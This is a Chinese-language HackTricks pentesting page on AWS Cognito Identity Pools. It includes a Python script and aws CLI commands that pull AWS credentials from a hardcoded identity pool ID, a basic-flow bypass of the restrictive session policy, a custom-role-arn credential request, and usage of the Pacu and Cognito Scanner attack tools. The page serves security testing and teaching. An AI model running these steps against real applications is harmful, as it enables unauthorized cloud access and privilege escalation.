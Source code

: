 # Cognito Identity Pools

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

身份池在使用户能够**获取临时凭证**方面发挥着至关重要的作用。这些凭证对于访问各种 AWS 服务至关重要，包括但不限于 Amazon S3 和 DynamoDB。身份池的一个显著特点是它们支持匿名访客用户和多种身份提供者进行用户身份验证。支持的身份提供者包括：

* Amazon Cognito 用户池
* 社交登录选项，如 Facebook、Google、使用 Amazon 登录和使用 Apple 登录
* 符合 OpenID Connect (OIDC) 的提供者
* SAML (安全声明标记语言) 身份提供者
* 开发者认证身份
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### Cognito Sync

要生成身份池会话，您首先需要**生成身份 ID**。这个身份 ID 是**该用户会话的标识**。这些标识可以有多达 20 个数据集，可以存储多达 1MB 的键值对。

这对于**保持用户信息**（将始终使用相同的身份 ID 的用户）是**有用的**。

此外，服务**cognito-sync**是允许**管理和同步这些信息**（在数据集中，发送流中的信息和 SNS 消息等）的服务。

### Tools for pentesting

* [Pacu](https://github.com/RhinoSecurityLabs/pacu)，AWS 利用框架，现在包括“cognito\_\_enum”和“cognito\_\_attack”模块，这些模块自动枚举帐户中的所有 Cognito 资产并标记弱配置、用于访问控制的用户属性等，并且还自动创建用户（包括 MFA 支持）和基于可修改自定义属性、可用身份池凭证、可假设角色的 ID 令牌等的权限提升。

有关模块功能的描述，请参见[博客文章](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2)的第 2 部分。有关安装说明，请参见主 [Pacu](https://github.com/RhinoSecurityLabs/pacu) 页面。

#### Usage

示例 cognito\_\_attack 用法，尝试在给定身份池和用户池客户端上进行用户创建和所有权限提升向量：
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
示例 cognito\_\_enum 用法，以收集当前 AWS 账户中可见的所有用户池、用户池客户端、身份池、用户等：
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) 是一个用 Python 编写的 CLI 工具，实施对 Cognito 的不同攻击，包括不必要的账户创建和身份池升级。

#### 安装
```bash
$ pip install cognito-scanner
```
#### 使用
```bash
$ cognito-scanner --help
```
For more information check https://github.com/padok-team/cognito-scanner

## 访问 IAM 角色

### 未认证

攻击者需要知道的唯一信息是 **在 Cognito 应用中获取 AWS 凭证** 的 **身份池 ID**，并且这个 **ID 必须硬编码** 在 web/mobile **应用程序** 中以供使用。一个 ID 看起来像这样：`eu-west-1:098e5341-8364-038d-16de-1865e435da3b`（它无法通过暴力破解获得）。

{% hint style="success" %}
通过创建的 **IAM Cognito 未认证角色默认称为** `Cognito_<Identity Pool name>Unauth_Role`
{% endhint %}

如果你发现一个硬编码的身份池 ID 并且它允许未认证用户，你可以通过以下方式获取 AWS 凭证：
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
或者你可以使用以下 **aws cli 命令**：
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
请注意，默认情况下，未经身份验证的 cognito **用户无法拥有任何权限，即使通过策略分配了权限**。请查看以下部分。
{% endhint %}

### 增强与基本身份验证流程

上一部分遵循了 **默认增强身份验证流程**。此流程为生成的 IAM 角色会话设置了 **限制性** [**会话策略**](../../aws-basic-information/#session-policies)。该策略仅允许会话 [**使用此列表中的服务**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)（即使该角色可以访问其他服务）。

然而，如果 **身份池启用了“基本（经典）流程”**，则有一种方法可以绕过此限制，用户将能够使用该流程获取会话，而该会话 **将没有限制性会话策略**。

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
如果您收到此**错误**，则是因为**基本流程未启用（默认）**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

拥有一组IAM凭证后，您应该检查[您拥有的访问权限](../../#whoami)并尝试[提升权限](../../aws-privilege-escalation/)。

### 已认证

{% hint style="info" %}
请记住，**已认证用户**可能会被授予**不同的权限**，因此如果您可以**在应用程序内注册**，请尝试这样做并获取新凭证。
{% endhint %}

对于**访问身份池的已认证用户**，可能还有**角色**可用。

为此，您可能需要访问**身份提供者**。如果是**Cognito用户池**，也许您可以利用默认行为**自己创建新用户**。

{% hint style="success" %}
通过**IAM Cognito认证角色创建的角色**默认称为`Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

无论如何，**以下示例**假设您已经登录到用于访问身份池的**Cognito用户池**（不要忘记其他类型的身份提供者也可能被配置）。

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# 从上一个命令响应中获取identity_id
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# 在IdToken中，您可以找到用户因用户池组而拥有的角色
# 使用--custom-role-arn获取特定角色的凭证
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
可以**根据用户登录的身份提供者**或**用户**（使用声明）配置不同的IAM角色。因此，如果您通过相同或不同的提供者访问不同的用户，可能**值得登录并访问他们的所有IAM角色**。
{% endhint %}

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}
